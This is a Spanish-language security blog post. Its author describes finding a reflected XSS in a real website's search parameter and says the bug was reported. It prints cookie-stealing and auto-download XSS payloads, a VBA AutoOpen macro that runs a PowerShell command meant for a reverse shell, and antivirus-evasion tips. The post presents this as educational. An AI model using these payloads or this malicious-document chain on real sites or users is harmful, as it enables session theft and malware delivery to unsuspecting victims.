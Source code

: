 ```yaml
---
layout: post
title: Simple XSS reflejado en un sitio web real
author: c4rta
date: 2023-06-28
##categories: [Maquinas, HackTheBox]
tags: [XSS]
---
```

Te voy a enseñar como encontre una vulnerabilidad XSS reflejado en un sitio web real

{:.lead}

**Este no es ningun writeup, pero te voy a mostrar como encontre de casualidad una vulnerabilidad ```XSS reflejado``` en un sitio web real, cabe recalcar que la vulnerabilidad ya la reporte, y no estoy promoviendo explotar vulnerabilidades en entornos reales, y simplemente te voy a dar la idea de algo que podria hacer alguien con malas intenciones, que este no es el caso, y espero que el tuyo tampoco**

## XSS reflejado

De acuerdo a port swigger se trata de:

> Surge cuando una aplicación recibe datos en una solicitud HTTP e incluye esos datos en la respuesta inmediata de forma no segura

Es decir que en un XSS reflejado los datos que mándamos por una petición HTTP se reflejan en la respuesta que da el servidor web hacia el cliente (navegador)

Cómo dice OWASP:

> El ataque se lleva a cabo a través de un único ciclo de solicitud/respuesta.

En este tipo de XSS el codigo no reside en la aplicacion web como tal y no se encuentra del lado del servidor, y regularmente un atacante puede incrustar su payload malicioso en la URL generada y enviarselo a la victima, obvio se usa ingenieria social y phishing para que sea mas creible.

## Identificando el XSS

> Evidentemente voy se censurar la URL

**¿Como me di cuenta que era un XSS?**

Fue muy random, originalmente yo solo queria buscar una noticia, entonces use su barra de busqueda para encontrar lo que queria, cuando busque por un termino me di cuenta de la forma tan peculiar de la URL y como se mostraban los datos en la pagina, mira:

![](/assets/img/simple_xss/1.png)

Vean como cuando se realiza una busqueda, te manda a la ruta ```/buscar/``` la cual tiene un parametro de consulta el cual es la ```q```, como se ve en ```?q=c4rta```, asi que el parametro ```q``` es utilizado para especificar el termino que se quiere buscar, y del lado de la pagina web, el termino que busque se refleja en la pagina web

![](/assets/img/simple_xss/2.png)

Esto ya estaba curioso, asi que decidi mostrar el codigo fuente de la pagina cuando se realiza la busqueda, y por suerte encontre la funcion que realiza la busqueda

![](/assets/img/simple_xss/3_000.png)

Primero con:

```js
var searchString = document.getElementById('searchtextsimple').value;
```
Lo que esta haciendo es crear una variable llamada ```searchString``` la cual va a contener el valor del atributo ```value``` del elemento con el id ```searchtextsimple```, y ese elemento con el id es este:

```html
<input id="searchtextsimple" type="text" name="q" class="form-control" placeholder="Buscar" value="c4rta"></input>
```

Despues en el JS tenemos que nuestro input el cual esta guardado en ```searchString``` se le concatena sin ningun tipo de procesamiento ni sanitizacion a la URL a tra vez del parametro ```q```:

```js
var url = "https://<URL>/barebone/wf.template/config.default.master.withgroupcount?q=" + encodeURI(searchString);
```

Y por ultimo carga la URL para mostrarla en la web:

```js
$(".results-group.parent").load(url);
```

Entonces tenemos que nuestro input se guarda en al atributo ```value``` de  la etiqueta ```<input>``` y despues se extrae y se concatena directamente en la URL para luego ser interpretado por el sitio web, la vulnerabilidad es obvia, al yo tener control total de lo que quiero buscar y este sera interpretado, entonces puedo probar por XSS a ver si interpreta codigo de JS, ahora le ingresare esto como input:

```js
<script>alert("Prueba XSS")</script>
```

Y vean como si nos interpreta el JS y ya nos dimos cuenta que tenemos un XSS reflejado

![](/assets/img/simple_xss/4.png)

Y en la URL se incrusto el codigo de XSS

![](/assets/img/simple_xss/5.png)

Podria usar otro payload para obtener las cookies, y curiosamente este sitio web tiene un monton

```js
<script>alert(document.cookie)</script>
```
<center><img src="/assets/img/simple_xss/6.png" width=290px height=200px></center><br>

Evidentemente censure todo por que sale mi cookie de sesion asi como otras muchas, y es posible que hayas pensado que este XSS una vez teniendo la cookie de sesion podria conducir a un CSRF/XSRF, y es correcto mientras sea vulnerable a ello. pero este vez vamos a ir mas alla, por que este XSS lo vamos combinar con malware, mas en concreto algo que se le conoce como ```MalDoc```

## MalDoc

MalDoc viene de Malicious Document, y lo que podria hacer ahora es crear una macro en VBS la cual vamos a incrustar en un docx, donde la macro se ejecutara automaticamente al abrirse el documento, y vamos a aprovechar el XSS para crear un payload que al entrar a la URL vulnerable a XSS, se descargue automaticamente el documento de una URL creada por el atacante, el payload es el siguiente:

```js
<script> 
    var link = document.createElement('a');
    link.href = 'URL:8080/MalDoc.docx';
    link.download = 'MalDoc.docx';
    link.click();
</script>
```

Basicamente el escenario seria que nosotros como atacantes le mandemos a la victima la URL del sitio vulnerable con el payload, la victima abra la URL, se descargue automaticamente el docx, se redireccione al sitio original de la pagina vulnerable, la victima abra el documento que contiene una macro, la macro se ejecute y ejecuta un comando que podria ser una reverse shell

Esto pasaria si la victima abre el link con el payload:

![](/assets/img/simple_xss/7.png)

Vean como la URL tiene el payload, y el entrar al link, se descargar automaticamente el documento del sitio web del atacante, en este caso, es un servidor web que cree con python y que tiene mi IPv4.

Y entonces al abrirlo se deberia de ejecutar la macro con la reverse shell, pero ¿Como se crea la macro?, bueno, el msfvenom ya tiene modulos para crear un MalDoc y una macro maliciosa, pero estamos aprendiendo, hay que hacerlo manual, simplemente de voy a dar la idea, no lo voy a poner a prueba.

Podriamos crear un archivo VBS de esta manera:

```vb
Sub AutoOpen()
Comando_Ps = "el tipico oneliner de powershell"

Dim Shell As Object
Set Shell = CreateObject("Wscript.Shell")
Shell.Run (Comando_Ps)

End Sub
```

Basicamente lo que va a hacer es ejecutar un comando de powershell que se declare en la variable ```Comando_Ps``` a tra vez de un objeto ```Wscript.Shell```

Y ahora para incrustarla en el docuemento se puede hacer uso de ```Microsoft Visual Basic for Applications``` y guardar el documento con la macro.

Y seguramente diras: "Eso no evade ningun antivirus, y el defender lo va a detectar", y en efecto, asi que te dare unos tips

- Usa Invoke-Obfuscation
- Usa procesos VMI
- Usa StrRerverse() para agregar un poco mas de ofuscacion
- Usa WMI Win32_PingStatus para evadir sandboxes

(Estas tecnicas que acabe de mencionar, como lo de MalDoc con la macro y las tecnicas para evadir antivirus pienso dedicarles un post aparte)

> Recuerda que la vulnerabilidad ya esta reportada, y no estoy promoviendo la creacion de malware ni tampoco el explotar vulnerabilidades sin el permisos de otros, es meramente educativo e informativo.

Eso ha sido todo, gracias por leer ❤

![](/assets/img/simple_xss/waifu.gif) 
